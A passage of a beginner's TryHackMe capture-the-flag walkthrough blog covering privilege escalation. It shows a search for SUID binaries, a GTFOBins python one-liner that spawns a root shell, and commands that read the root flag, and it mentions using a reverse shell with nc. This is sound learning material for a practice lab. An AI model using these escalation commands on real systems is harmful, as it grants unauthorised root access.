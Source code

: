 *Search for files with SUID permission, which file is weird?*

```
<pre class="wp-block-code">```
$ find / -user root -perm /4000 2>/dev/null

```
```

This is hard, I’m not sure what I’m looking for.

I used the input field from TryHackMe `/***/***/******` and just guessed which directory’s based on characters, `/usr/bin/python`.

Okay, next, *find a form to escalate your privileges, search for gtfobins.*

Found [gtfobins](https://gtfobins.github.io/), searched python and looked for SUID.

…time passes.

Look, I’ll be honest, I’ve got root and I have no idea what made it happen. I don’t understand python so it seems like magic right now. Anyway, here are the steps I took (or followed):

```
<pre class="wp-block-code">```
$ /bin/bash

python -c 'import pty;pty.spawn ("/bin/bash")'

./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'

```
```

Now I’ve got the `#` let’s search for the missing file.

```
<pre class="wp-block-code">```
$ find / -type f -name root.txt 2>/dev/null

/root/root.txt

$ cat /root/root.txt

THM{*}

```
```

Well, that’s the last flag, we did it! Thanks to [Yesspider](https://youtu.be/eDGI1RCkp8E) for their walkthrough video.

Looking back this is a good beginner game, even if it felt really hard and lead me to cheat, I use the term ‘cheating’ loosely as it’s still learning. If I get so stuck I want to give up, it’s better to look at a walkthrough than stop altogether.

I’m getting comfortable running some `nmap` which is great, and then sifting through information to find what I’m after.

I learnt about `gobuster`, a tool I want to use more! It felt great using a reverse shell and understanding the concept even if I didn’t understand 100% of what I was following along with. Something about setting up `nc` to listen and catch information felt amazing!

I loved used `find` one of the most basic commands which still havent clicked for me. Lastly using Python, now to be honest all of that went right over my head. But I’m using it, being more familiar, so it’s a start!

Hope you enjoyed this CTF Walkthrough.
```